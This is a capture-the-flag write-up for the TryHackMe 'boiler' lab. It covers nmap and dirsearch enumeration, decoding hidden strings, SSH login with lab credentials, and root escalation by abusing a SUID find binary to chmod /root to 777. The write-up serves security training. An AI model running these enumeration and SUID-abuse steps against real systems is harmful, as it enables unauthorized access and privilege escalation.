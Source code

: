 # Tryhackme (boiler CTF)

	enumuration process
## Nmap
```
sudo nmap -sC -sV 10.10.231.142
```
we got the ports like

```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-03-26 16:41 IST
Nmap scan report for 10.10.231.142
Host is up (0.55s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.2.124.113
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    MiniServ 1.930 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.36 seconds


```

in this scan there is a ftp server, from that server we got an file `.info.txt` in this file there is some bunch of text are there for that we need to check any vuln.

in this file we have some of the ROT13 codes 
```
	Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!

```
after decrypt: 	`Just wanted to see if you find it. Lol. Remember: Enumeration is the key!`	



also there http server mainly `robots.txt` in thsi directory
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
in this some of the decimal encryption. we decrypt that codes we got

- OTliMDY2MGNkOTVhZGVhMzI3YzU0MTgyYmFhNTE1ODQK == base64
- 99b0660cd95adea327c54182baa51584  = md5
- kidding

also searched for directory list we got

`dirsearch -u http://10.10.253.152`
```
[17:22:52] 200 -   11KB - /index.html
[17:22:55] 301 -  315B  - /joomla  ->  http://10.10.231.142/joomla/
[17:22:55] 301 -  329B  - /joomla/administrator  ->  http://10.10.231.142/joomla/administrator/
[17:22:56] 200 -   12KB - /joomla/
[17:23:02] 301 -  315B  - /manual  ->  http://10.10.231.142/manual/
[17:23:02] 200 -  626B  - /manual/index.html
[17:23:24] 200 -  257B  - /robots.txt
[17:23:26] 403 -  302B  - /server-status/
[17:23:26] 403 -  301B  - /server-status


```

in site we got encrypted message 
- VjJodmNITnBaU0JrWVdsemVRbz0K
- V2hvcHNpZSBkYWlzeQo=
- Whopsie daisy


## ssh

user = basterd
passwd  superduperp@$$

```
ssh basterd@10.10.129.170 -p 55007
```
after we enter the new user id 
cat backup.sh
[image]
we got user text

cat .secret
- ` `


then check the root privilage
`sudo -l`

SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

Use the following command to find files whose SUID bit is set.
```
    $ find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```
[image]

Let’s breakdown the command we used for better understanding:

find →Search for files in a directory hierarchy.

    / →Search for files recursively from the root folder and so on.
    -perm →To set specific permission setting. In this case which is /4000 the numerical representation of the SUID bit enabled
    -type →It specify what type of files we wants to search. f for files, d for directories
    -exec →let us execute a command with the findings from find in an array. In this case I used ls -ld to show the owner of the found files and the date of creation
    2>/dev/null → which redirects all (errors) to /dev/null and keeping the output clean.

Have you observed the output we got from this command yet? In the list there is find commnad which have SUID bit set which means we can run find as root user. Using -exec flag as shown above. Let’s try out by changing the permission of root directory.
```
$ find . -exec chmod 777 /root \;
```

finally we got a root.txt

- 
